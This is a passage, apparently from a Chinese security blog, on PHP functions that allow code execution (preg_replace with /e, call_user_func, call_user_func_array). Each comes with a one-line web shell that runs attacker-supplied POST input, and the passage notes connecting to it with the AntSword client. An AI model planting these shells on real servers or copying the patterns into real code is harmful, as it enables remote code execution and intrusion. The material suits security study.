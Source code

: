 当使用被弃用的 `e` 修饰符时, 这个函数会转义一些字符(即：`'`、`"`、 `\` 和 `NULL`
然后进行后向引用替换。**在完成替换后， 引擎会将结果字符串作为php代码使用eval方式进行评估并将返回值作为最终参与替换的字符串。**

举个栗子：

```php
echo preg_replace('/chabug/e','phpinfo()','asdasdchabugasd');
```

`/e`修饰符前的正则表达式匹配后面的字符串参数，将`chabug`字符串替换为`phpinfo()`并且以`eval()`的方式执行。

一句话:

```php
echo preg_replace('/.*/e',$_POST['c'],'');
```

### call_user_func
```php
call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] ) : mixed
```
(PHP 4, PHP 5, PHP 7)

`call_user_func` — 把第一个参数作为回调函数调用
第一个参数 `callback` 是被调用的回调函数，其余参数是回调函数的参数。

举个例子：

```php
call_user_func('phpinfo');
```

一句话shell:

```php
call_user_func($_POST['a'], $_POST['c']);
```

![](https://y4er.com/img/uploads/20190509169644.jpg)

蚁剑链接

![](https://y4er.com/img/uploads/20190509169934.jpg)

![](https://y4er.com/img/uploads/20190509160364.jpg)

需要设置http body和编码器

### call_user_func_array

```php
call_user_func_array ( callable $callback , array $param_arr ) : mixed
```

`call_user_func_array`  调用回调函数，并把一个数组参数作为回调函数的参数

举个例子：

```php
call_user_func_array($_POST['a'], $_POST['c']);
```
